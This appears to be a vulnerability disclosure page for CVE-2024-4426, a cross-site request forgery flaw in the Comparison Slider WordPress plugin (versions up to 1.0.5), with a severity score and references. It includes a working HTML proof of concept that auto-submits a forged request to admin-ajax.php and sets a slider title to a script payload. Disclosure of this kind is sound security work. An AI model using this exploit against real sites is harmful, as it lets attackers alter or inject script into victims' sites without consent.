 ```yaml
---
layout: page
title: CVE-2024-4426
subtitle: Comparison Slider <= 1.0.5 - Cross-Site Request Forgery
---
```

## Description
The Comparison Slider plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.0.5. This is due to missing or incorrect nonce validation on several functions hooked to AJAX actions. This makes it possible for unauthenticated attackers to change slider titles, delete sliders and modify plugin settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
  4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.5

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="mod" value="comparison" />
      <input type="hidden" name="action" value="updateSettingFromTpl" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="title" value="&lt;script&gt;alert&#40;&apos;eneriiii&lt;3&apos;&#41;&lt;&#47;script&gt;" />
      <input type="hidden" name="pl" value="ics" />
      <input type="hidden" name="reqType" value="ajax" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/comparison-slider/comparison-slider-105-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4426





